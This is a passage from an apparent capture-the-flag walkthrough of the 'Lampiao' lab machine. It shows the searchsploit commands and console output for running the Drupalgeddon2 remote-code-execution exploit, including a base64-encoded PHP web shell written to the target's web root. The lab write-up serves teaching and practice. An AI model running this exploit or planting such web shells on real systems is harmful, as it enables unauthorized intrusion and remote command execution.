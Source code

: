 
This version should be vulnerable to _Drupalgeddon2_ which there is an RCE exploit in _searchsploit_

![searchsploit](../../../assets/images/ctfs/proving_grounds/lampiao/searchsploit.png)

Copy the _44449.rb_ exploit to the current directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ searchsploit -m 44449.rb
  Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44449
     Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
    Codes: CVE-2018-7600
 Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/vagrant/Documents/PG/PLAY/lampiao/44449.rb


```

This exploit requires the _highline_ gem.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ sudo gem install highline
Fetching highline-2.1.0.gem
Successfully installed highline-2.1.0
Parsing documentation for highline-2.1.0
Installing ri documentation for highline-2.1.0
Done installing documentation for highline after 1 seconds
1 gem installed

```

Now we can run the exploit and get a reverse shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ ruby 44449.rb http://192.168.226.48:1898
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.226.48:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.226.48:1898/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OXGANKQN
[+] Result : OXGANKQN
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.226.48:1898/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
```